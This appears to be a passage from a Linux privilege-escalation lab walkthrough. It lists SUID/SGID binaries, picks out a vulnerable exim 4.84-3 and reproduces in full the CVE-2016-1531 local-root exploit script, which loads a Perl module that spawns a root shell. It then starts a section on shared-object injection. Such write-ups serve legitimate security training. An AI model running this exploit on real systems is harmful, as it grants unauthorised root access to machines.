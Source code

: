 ```
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs
```

Note that `usr/bin/exim4.84-3` appears in the results. Find a known exploit for this this version. 

**EXPLOIT CODE**
```sh
#!/bin/sh
# CVE-2016-1531 exim <= 4.84-3 local root exploit
# ===============================================
# you can write files as root or force a perl module to
# load by manipulating the perl environment and running
# exim with the "perl_startup" arguement -ps. 
#
# e.g.
# [fantastic@localhost tmp]$ ./cve-2016-1531.sh 
# [ CVE-2016-1531 local root exploit
# sh-4.3# id
# uid=0(root) gid=1000(fantastic) groups=1000(fantastic)
# 
# -- Hacker Fantastic 
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```
Found [here](https://www.exploit-db.com/exploits/39535 "exploitdb").

Running this exploit gave a root shell on the machine.

## SUID / SGID Executables - Shared Object Injection

The `/usr/local/bin/sudi-so` SUID executable is vulnerable to shared object injection. Executing this process causes a progress bar to appear before exiting. 
